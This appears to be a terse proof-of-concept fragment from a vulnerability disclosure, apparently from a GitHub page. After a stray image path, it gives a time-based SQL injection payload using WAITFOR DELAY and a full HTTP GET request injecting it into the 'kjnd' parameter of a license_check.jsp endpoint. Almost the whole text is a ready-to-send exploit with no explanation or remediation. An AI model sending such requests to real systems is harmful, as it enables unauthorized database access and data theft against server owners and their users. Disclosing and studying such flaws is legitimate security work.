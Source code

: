 payload

```markdown
';WAITFOR DELAY '0:0:5'-- q
```

poc

```markdown
GET /u8qx/license_check.jsp?kjnd=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Connection: close
```


